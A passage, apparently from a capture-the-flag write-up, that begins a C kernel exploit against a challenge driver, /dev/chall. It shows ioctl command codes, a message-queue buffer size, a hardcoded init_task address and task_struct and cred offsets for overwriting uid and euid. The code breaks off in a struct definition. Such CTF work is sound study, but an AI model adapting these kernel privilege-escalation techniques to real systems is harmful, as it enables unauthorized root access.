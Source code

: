 ### Exploit

Here the full exploit script:

```c
#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>
#include <stddef.h>
#include <stdbool.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <sys/ipc.h>
#include <sys/msg.h>

#define CHALLENGE_DRIVER "/dev/chall"

// Commands
#define CMD_ALLOC 1337
#define CMD_DELETE 1338
#define CMD_READ 1339
#define CMD_INFO 1340
#define CMD_TOGGLE 1341

// Message buffer
#define MSG_SIZE 2040 - 48

// Init task address
#define INIT_TASK 0xffffffff828149c0

// Task structure offsets
#define TASKS_OFF 0x458
#define CRED_OFF 0x728
#define PID_OFF 0x560
#define CRED_UID_OFF 0x4
#define CRED_EUID_OFF 0x14

// Recipe structure offsets
#define PUBLIC_OFF 0x10
#define UID_OFF 0x14

typedef union request {

    struct alloc {
        unsigned long idx;
        char* buf;
        unsigned long bufsize;
        unsigned int public;
    } alloc;

    struct delete {
        unsigned long idx;
    } delete;

    struct read {
        unsigned long idx;
        char *buf;
        unsigned long bufsize;
    } read;

    struct info {
        unsigned long idx;
```